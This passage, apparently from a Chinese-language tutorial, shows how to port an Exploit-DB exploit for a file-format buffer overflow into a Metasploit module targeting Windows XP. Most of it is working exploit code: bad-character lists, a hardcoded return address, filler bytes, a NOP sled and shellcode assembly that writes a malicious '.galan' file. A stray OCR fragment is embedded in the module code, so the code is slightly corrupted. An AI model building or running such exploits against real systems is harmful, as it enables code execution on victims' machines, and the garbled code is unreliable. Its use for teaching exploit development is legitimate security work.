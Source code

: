 ```
[
[ 'URL', 'http://www.exploit-db.com/exploits/10339' ],
],
'DefaultOptions' =>
{
'EXITFUNC' => 'process',
},
'Payload' =>
{
'Space' => 1000,
'BadChars' => "\x00\x0a\x0d\x20\x0c\x0b\x09",
'StackAdjustment' => -3500,
Metasploit moduleworking},
'Platform' => 'win',
'Targets' =>
[
[ 'Windows XP Universal', { 'Ret' => 0x100175D0} ], # 0x100175D0 call esi @ glib-1_3
],
'Privileged' => false,
'DefaultTarget' => 0))
register_options(
[
OptString.new('FILENAME', [ false, 'The file name.', 'evil.galan']),
], self.class)
end

```

到目前为止，一切都很简单明了。转折点在于定义`exploit()`函数。让我们看看如何做到这一点。

我们将从原始利用脚本的前四个字节开始，即`$magic = "Mjik"`;

它将在我们的模块中被替换为`sploit = "Mjik"`。

然后，我们继续构建我们的缓冲区。由于我们已经找到了`EIP`被覆盖的位置，我们可以将重复的返回地址值替换为：

```
sploit << rand_text_alpha_upper(1028);
sploit << [target.ret].pack('V');

```

然后，我们将添加我们的 nop 滑块。因此，利用脚本的这部分将更改为模块中的以下行：

```
sploit << "\x90" * 45

```

最后，我们构建完整的 shellcode：

```
sploit << payload.encoded

```
